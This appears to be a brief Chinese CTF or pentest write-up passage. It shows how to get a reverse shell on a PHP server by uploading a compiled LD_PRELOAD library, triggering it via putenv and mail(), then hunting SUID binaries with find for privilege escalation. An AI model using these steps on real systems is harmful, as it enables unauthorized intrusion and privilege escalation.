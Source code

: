 
编译 `gcc -shared -fPIC hook_getuid.c -o hook_getuid.so`

用ftp或者file\_put\_contents或者SplFileObject上传

然后反弹shell

```php
putenv("LD_PRELOAD=/tmp/hack.so");
mail("a@localhost","","","","");
```

最后一步 suid 提权就可以了

```bash
find /bin -perm -u=s -type f 2>/dev/null
find /usr -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
```